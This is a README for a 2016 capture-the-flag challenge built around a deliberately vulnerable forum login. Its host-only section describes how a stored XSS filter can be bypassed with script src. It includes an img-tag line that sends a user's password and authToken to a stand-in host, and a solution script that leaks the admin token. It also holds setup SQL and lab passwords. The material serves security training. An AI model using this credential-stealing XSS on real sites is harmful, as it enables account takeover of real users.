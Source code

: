 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admins have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
- If they are having problems with the max entered size, have them upload a script onto https://gist.github.com/ and use the RAW link as their created user's handle.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter in the `src`.
  
# Hosts Only . . .
  
## Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. 

### Recommendation at this point
My BIGGEST recommendation is to use https://gist.github.com/. Once there they can make something called `c.js` and put some arbituary JS code in it. once there, use the **RAW** link as their handle and voila! Injected JS that they **CAN EDIT ACTIVELY**. This way if they break the site they can just change their code here to revert it.


Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. ( We might want to provide this ). To send it out, the easiest method is to bind it with an img tag. \<img src="https://mysecretwebsite.ioo/receive?user=admin&password=yadada&authToken=1234567">. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 



# Setup

Import the following SQL to setup
```
# ************************************************************
# Sequel Pro SQL dump
# Version 4541
#
# http://www.sequelpro.com/
# https://github.com/sequelpro/sequelpro
#
# Host: 127.0.0.1 (MySQL 5.5.46-0ubuntu0.14.04.2)
# Database: challenge
# Generation Time: 2016-12-09 20:33:41 +0000
# ************************************************************


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;


# Dump of table login
# ------------------------------------------------------------

DROP TABLE IF EXISTS `login`;

CREATE TABLE `login` (
  `username` varchar(30) NOT NULL DEFAULT '',
  `password` text NOT NULL,
  `authToken` text NOT NULL,
  `handle` varchar(200) NOT NULL DEFAULT '',
  `created` datetime NOT NULL,
  PRIMARY KEY (`username`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;

INSERT INTO `login` (`username`, `password`, `authToken`, `handle`, `created`)
VALUES
	('thebestadmin','$2y$10$129139293012312093210u1xpEeTfbT5Yeixf3KSdSAv/BgFs4Qsq','7da7e821a5b8ee25e8f42b56d573f0cc','notyourbusiness','2016-12-09 19:36:34');

/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;



/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

There needs to exist a `login` user with password: `Password1` that has the following permissions: `SELECT, INSERT, UPDATE`
to the `login` table, which exists in the `challenge` database.

The above script includes the login credentials so you'll be good.

As for the cron. go to the `cronadmin` folder and npm install. Have the cron run `node index.js` and ensure it works. If it doesn't, login as the admin to get an authtoken logged by going into the website and logging in as `thebestadmin` `securepassword1`. Once there it should create a file named `authTokenStorage.txt` which contains the authToken (I'm lazy, okay?)

# Solution Script
There exists `Log.php` which will aid them in repeating the last get request with a `data` parameter in it. 
```
authTokenLogin = function(authToken) {
  $.get( "log.php?data=" + authToken, function( data ) {
  });
}
```
Using this will replace the authToken login and allow the user to get the data by going to `directory/log.php`

